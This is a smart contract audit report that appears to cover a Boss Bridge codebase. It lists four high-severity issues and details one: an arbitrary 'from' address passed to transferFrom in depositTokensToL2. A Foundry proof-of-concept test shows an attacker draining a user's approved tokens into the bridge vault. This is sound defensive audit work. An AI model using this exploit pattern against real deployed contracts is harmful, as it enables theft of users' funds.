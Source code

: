 # Executive Summary

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 4                      |
| Medium   | 0                      |
| Low      | 0                      |
| Info     | 0                      |
| Gas      | 0                      |
| Total    | 4                      |

# Findings

## High

### [H-1] Arbitrary `from` passed to `transferFrom` (or `safeTransferFrom`)

**Description**

In `L1BossBridge::depositTokensToL2` function, a transaction passing an arbitrary `from` address to `transferFrom` (or `safeTransferFrom`) can lead to a loss of funds, because anyone can transfer tokens from the `from` address if an approval is made.

**Impact**

If an approval is made, the protocol can lose of funds.

**Proof of Concepts**

Scenario : 
 - A user creates an approval for the bridge.
 - An attacker check the amount of user, then takes it as a parameter for the deposit
 - The attacker deposits to bridge by passing amount of the user as a parameter
 - The balance of the user will be lost due to this attack 

```javascript
    function testCanMoveApprovedTokensOfOtherUsers() public {
        vm.prank(user);
        token.approve(address(tokenBridge), type(uint256).max);

        uint256 depositAmount = token.balanceOf(user);
        address attacker = makeAddr("attacker");
        
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user, attacker, depositAmount);
        tokenBridge.depositTokensToL2(user, attacker, depositAmount);

        assert(token.balanceOf(user) == 0);
        assert(token.balanceOf(address(vault)) == depositAmount);
        vm.stopPrank();
    }
```
